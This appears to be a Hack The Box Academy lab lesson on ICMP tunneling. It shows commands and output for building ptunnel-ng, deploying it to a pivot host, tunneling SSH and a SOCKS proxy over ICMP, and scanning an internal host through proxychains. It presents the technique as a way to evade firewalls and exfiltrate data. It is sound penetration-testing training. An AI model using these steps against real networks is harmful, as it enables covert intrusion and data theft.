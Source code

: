 ___

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.

---

## Setting Up & Using ptunnel-ng

If ptunnel-ng is not on our attack host, we can clone the project using git.

#### Cloning Ptunnel-ng

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```

Once the ptunnel-ng repo is cloned to our attack host, we can run the `autogen.sh` script located at the root of the ptunnel-ng directory.

#### Building Ptunnel-ng with Autogen.sh

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ sudo ./autogen.sh 
```

After running autogen.sh, ptunnel-ng can be used from the client and server-side. We will now need to transfer the repo from our attack host to the target host. As in previous sections, we can use SCP to transfer the files. If we want to transfer the entire repo and the files contained inside, we will need to use the `-r` option with SCP.

#### Transferring Ptunnel-ng to the Pivot Host

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

With ptunnel-ng on the target host, we can start the server-side of the ICMP tunnel using the command directly below.

#### Starting the ptunnel-ng Server on the Target Host

ICMP Tunneling with SOCKS

```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

The IP address following `-r` should be the IP we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.

#### Connecting to ptunnel-ng Server from Attack Host

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

#### Tunneling an SSH connection through an ICMP Tunnel

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```

If configured correctly, we will be able to enter credentials and have an SSH session all through the ICMP tunnel.

On the client & server side of the connection, we will notice ptunnel-ng gives us session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way we can confirm that our traffic is passing from client to server utilizing ICMP.

#### Viewing Tunnel Traffic Statistics

ICMP Tunneling with SOCKS

```shell-session
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

We may also use this tunnel and SSH to perform dynamic port forwarding to allow us to use proxychains in various ways.

#### Enabling Dynamic Port Forwarding over SSH

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.

#### Proxychaining through the ICMP Tunnel

ICMP Tunneling with SOCKS

```shell-session
D4rsel@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

---

## Network Traffic Analysis Considerations

It is important that we confirm the tools we are using are performing as advertised and that we have set up & are operating them properly. In the case of tunneling traffic through different protocols taught in this section with ICMP tunneling, we can benefit from analyzing the traffic we generate with a packet analyzer like `Wireshark`. Take a close look at the short clip below.

![](https://academy.hackthebox.com/storage/modules/158/analyzingTheTraffic.gif)

In the first part of this clip, a connection is established over SSH without using ICMP tunneling. We may notice that `TCP` & `SSHv2` traffic is captured.

The command used in the clip: `ssh ubuntu@10.129.202.64`

In the second part of this clip, a connection is established over SSH using ICMP tunneling. Notice the type of traffic that is captured when this is performed.

Command used in clip: `ssh -p2222 -lubuntu 127.0.0.1`

---

Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.

Note: Consider the versions of GLIBC, make sure you are on par with the one on the target.